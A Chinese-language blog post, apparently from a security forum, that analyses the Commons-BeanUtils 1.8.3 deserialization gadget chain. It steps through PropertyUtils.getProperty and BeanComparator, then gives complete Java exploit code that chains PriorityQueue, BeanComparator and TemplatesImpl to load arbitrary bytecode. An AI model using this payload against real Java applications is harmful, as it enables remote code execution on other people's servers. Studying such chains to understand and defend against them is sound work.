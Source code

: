 Commons-Beanutils
=================

‍

这个包是对Java Bean进行加强的

依赖

```xml
        <dependency>
        <groupId>commons-beanutils</groupId>
        <artifactId>commons-beanutils</artifactId>
        <version>1.8.3</version>
        </dependency>
```

Java Bean 类
-----------

Java Bean是一种规范,准确的说是一种Java类的书写规范,满足以下条件的Java类可以称之为Java Bean

1、成员变量均使用private关键字进行修饰

2、提供构造方法(有参/无参)

3、为每个成员变量提供set/get方法

例如

```java
public class Student {
    private String name;
    private int sid;
    private int age;

    public Student(String name, int sid, int age) {
        this.name = name;
        this.sid = sid;
        this.age = age;
    }

    public Student() {
    }

    public void setName(String name) {
        this.name = name;
    }

    public void setSid(int sid) {
        this.sid = sid;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public String getName() {
        return name;
    }

    public int getSid() {
        return sid;
    }

    public int getAge() {
        return age;
    }
}
// 分别定义了空参/有参的构造函数,该类有三个成员变量均使用了private关键字修饰为私有,并为每个成员都提供了set/get方法,所以该类可以称为Java Bean类。
//  get/set方法的作用是，在对象的成员变量进行取值或赋值操作时提供了一个标准的接口
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5b001ddd8766787003331de80be872555f7c5c16.png)​

链子
--

而有了CB这个包，就可以用以下形式来直接动态获取值

```java
System.out.println(PropertyUtils.getProperty(student, "name"));
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-599af497057525689a59aae495859cf5d662a787.png)​

这里断点进去看看是如何实现传入`name`​就调用`getName`​方法的

进去后发现会去调用`getNestedProperty`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cebe903c12eb7a15349e13793969c9e7007d50a9.png)​

跟进后发现他是去判断我们传入的类是什么类型的，如果都不属于下图中类就调用`getSimpleProperty`​方法

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-78263fffdc96f2f7de19600266caec1d1f97a690.png)​

然后也是进去一系列判断如果都不属于这些类就调用`getPropertyDescriptor`​方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2cedc61970599c6a175668eb737bfc821b9f5753.png)​

而这个就是重点方法了，这里其实不需要去看他怎么实现的，他会返回`PropertyDescriptor类`​我们直接看他返回的对象`descriptor`​即可

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-1e45c2d3c24b459284d5ea355638439ca6ecd797.png)​

可以发现他返回了几个属性，恰好就是setter getter方法名字

再接着往下就是获取方法的名字，然后去调用641行的反射

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2b57ce4fe3e5b54a84564de25da89df1d749cdef.png)​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-feb60eac58ec5d6296e19cfe77e2b2464803e0b6.png)​

所以到这里我们又可以想象`Fastjson`​一样，假设谁的 `PropertyUtils.getProperty`​ 传参是可控的，那么找到一个函数的 getter 是有危险行为的，那么通过CB链就可以去触发导致代码执行(而在Fastjson中也是有这种情况发生，所以后半段恶意类加载就可以利用`TemplatesImpl`​链来完成)

我们可以来写一个demo

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field facField = tc.getDeclaredField("_tfactory");
        facField.setAccessible(true);
        facField.set(templates, new TransformerFactoryImpl());
        templates.newTransformer();
        System.out.println(PropertyUtils.getProperty(templates, "outputProperties"));
```

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-b639836dd7e76f34ce9ad406f890a117b6edd12d.png)​

那么现在已经后半条链已经衔接好了，现在就是去找jdk跟CB依赖中进行衔接的反序列化点

也就是去找谁去调用了`getProperty`​方法

‍

于是找到了 `commons-beanutils-1.8.3.jar!\org\apache\commons\beanutils\BeanComparator#compare()`​方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-ea95b82f3ed5e7642934f0fda9513553416e10bd.png)​

这写法跟CC4的太像了真的，所以找到`compare()`​就可以联想到CC4的入口直接拼起来就可以串起来了

其实在这里我一直有个疑问，就是这个`compare()`​到底是否可控，因为他传两个参数我并不知道是在哪里可以控制的，调试了下也明白了，如下图

可以发现在721行是将`x`​传入，那么`x`​怎么进来的呢？

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-086b889107387d23dc2782a720cf71a82a46fb51.png)​

在上一个方法中就把`x`​传进来了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-aac9103d2f829a59383f8a7519dd6356256d25b7.png)​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-62ac07fc6d1270ef4de614df2c25097b796d3bce.png)​

在`heapify`​中就传了对象，再往上跟就是`readObject`​了，而在`heapify`​中进行了数组的右移所以可以寻找到该属性通过 `priorityQueue.add(templates);`​传入的类,如果我们传入 `3`​ 就会不一样了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c71c4c654817fa939acbe4ac5e70fda821e1a935.png)​

就会变成数字类`3`​ 这也就是为什么我们队列这里要写入`TemplatesImpl`​类，这样子才能去调用到`TemplatesImpl`​类的getter方法

‍

那么直接写EXP

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        // CB
        BeanComparator beanComparator = new BeanComparator("outputProperties",new AttrCompare());

        //CC2
        TransformingComparator  transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c = priorityQueue.getClass();
        Field comfield =  c.getDeclaredField("comparator");
        comfield.setAccessible(true);
        comfield.set(priorityQueue,beanComparator);

        serialize(priorityQueue);
```

CB的时候要生成CC跟CB都有的类，以下是组长整理的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-22e3ae98fe58190e7a84ae3c8256d2f6e34f5b1f.png)​

‍

流程图

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-896b0c0590e07b6ad4fcab7a5e39b88ab4b1e789.png)​

‍